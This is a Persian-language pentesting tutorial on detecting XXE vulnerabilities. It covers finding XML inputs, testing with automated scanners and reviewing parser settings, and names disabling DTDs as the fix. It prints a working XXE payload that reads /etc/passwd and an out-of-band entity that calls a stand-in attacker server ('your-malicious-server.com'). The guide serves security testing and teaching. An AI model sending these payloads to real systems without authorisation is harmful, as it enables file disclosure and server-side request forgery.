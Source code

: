 # XXE

آسیب‌پذیری XXE (XML External Entity) زمانی رخ می‌دهد که یک برنامه وب ورودی‌های XML را بدون محدودیت روی موجودیت‌های خارجی (External Entities) پردازش کند. این آسیب‌پذیری می‌تواند منجر به افشای اطلاعات حساس، اجرای کد از راه دور، حملات SSRF و حتی Denial of Service شود.

مراحل و روش‌های کشف XXE
1. شناسایی نقاطی که ورودی XML دریافت می‌کنند
ابتدا باید بخش‌هایی از وب‌سایت یا API که ورودی XML می‌گیرند (مثلاً SOAP، REST با payload XML، آپلود فایل‌های XML و ...) را پیدا کنید.

2. تست دستی با تزریق موجودیت خارجی (External Entity)
یک فایل XML دستکاری شده می‌سازید که در آن یک موجودیت خارجی تعریف شده است. نمونه ساده:

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

این XML را به سرور ارسال کنید (مثلاً در درخواست POST).

اگر محتوای فایل /etc/passwd یا هر فایل محلی دیگری در پاسخ برگشت داده شود، یعنی آسیب‌پذیری XXE وجود دارد.

3. تست با موجودیت خارجی به سمت سرور مهاجم (Out-of-Band)
موجودیت خارجی را به URL سرور خود (که کنترلش را دارید) ارجاع دهید:

```bash
<!ENTITY xxe SYSTEM "http://your-malicious-server.com/evil">
```

سپس با بررسی لاگ‌های سرور خود می‌توانید بفهمید که سرور هدف درخواست به URL شما ارسال کرده است یا خیر. این روش برای شناسایی Blind XXE کاربرد دارد.

4. بررسی پیام‌های خطا و رفتار سرور
گاهی اوقات سرور با خطاهای XML یا پیام‌هایی که حاوی اطلاعات حساس است پاسخ می‌دهد. این پیام‌ها می‌توانند نشانه وجود XXE باشند.

5. استفاده از ابزارهای خودکار
ابزارهایی مثل Burp Suite (با افزونه‌های XXE)، OWASP ZAP و اسکنرهای تخصصی XXE می‌توانند به صورت خودکار ورودی‌های XML را اسکن و آسیب‌پذیری را شناسایی کنند.

6. بررسی کد منبع (در صورت دسترسی)
اگر به کد برنامه دسترسی دارید، بررسی کنید که آیا پارسر XML با تنظیمات امن (غیرفعال کردن DTD، موجودیت‌های خارجی و ...) استفاده شده است یا خیر.

نکات مهم
آسیب‌پذیری XXE زمانی رخ می‌دهد که پارسر XML اجازه بارگذاری DTD و موجودیت‌های خارجی را بدهد.

ساده‌ترین راه جلوگیری، غیرفعال کردن DTD و موجودیت‌های خارجی در پارسر XML است.

XXE می‌تواند منجر به افشای فایل‌های محلی، حملات SSRF و حتی اجرای کد از راه دور شود.

منابع و مطالعه بیشتر
راورو - معرفی و کشف XXE

گروه مهندسین فناوری نوین۵۲ - آسیب‌پذیری XXE

بلاگ گروه لیان - شناسایی و اکسپلویت XXE

آموزش ویدئویی شکار XXE

خلاصه
برای پیدا کردن XXE:

نقاط ورودی XML را شناسایی کنید.

یک فایل XML حاوی موجودیت خارجی (مثلاً خواندن فایل محلی یا ارجاع به URL خارجی) بسازید.

آن را به سرور ارسال کنید و پاسخ یا لاگ‌های سرور را بررسی کنید.

از ابزارهای اتوماتیک برای اسکن کمک بگیرید.

در صورت مشاهده اجرای کد یا افشای اطلاعات، آسیب‌پذیری تایید می‌شود.

این روش‌ها به شما کمک می‌کند تا به صورت دقیق و جامع آسیب‌پذیری XXE را در تست نفوذ وب شناسایی کنید.
